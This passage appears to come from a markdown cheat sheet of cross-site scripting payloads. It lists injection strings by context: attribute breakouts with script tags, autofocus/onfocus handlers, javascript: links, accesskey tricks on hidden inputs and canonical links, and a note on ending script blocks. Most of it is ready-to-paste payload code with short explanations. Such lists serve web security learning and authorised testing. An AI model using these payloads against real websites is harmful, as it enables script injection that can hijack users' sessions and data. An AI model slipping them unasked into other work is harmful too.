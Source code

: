 > **Note**: Understand how a payload works
>
> * `<body onresize="print()">` with this payload (for reflected XSS) you need an exploit server and iframe tag

### In HTML tag attributes

* Terminate the attribute value, close the tag, and introduce a new one.

    ```html
    "><script>alert(document.domain)</script>
    ```

* If angle brackets are blocked or encoded, introduce a new attribute that creates a scriptable context.

    ```html
    " autofocus onfocus=alert(document.domain) x="
    ```

* If XSS context is into the href attribute of an anchor tag, use the javascript pseudo-protocol to execute script

    ```html
    <a href="javascript:alert(document.domain)">
    ```

* Access keys allow you to provide keyboard shortcuts that reference a specific element. This is useful in hidden inputs because events like onmouseover and onfocus can't be triggered due to the element being invisible

    ```html
    <input type="hidden" accesskey="X" onclick="alert(1)">
    ```

    ```html
    <link rel="canonical" accesskey="X" onclick="alert(1)" />
    ```

    > **Note**: 
    > * Substitute `'` `"` and vice versa
    > * Space is not needed
    >
    > ```html
    > <link rel="canonical" href='https://website.net/?'accesskey='X'onclick='alert(1)'/>
    > ```
   
    ```html
    <link rel="canonical" href='https://website.net/?'accesskey='X'onclick='alert(1)'/>
    ```

### Into JavaScript

**Terminating the existing script**

The browser interprets the `</script>` sequence within the string as the end of the script block, prematurely stopping the execution of your JavaScript script and generating an error.
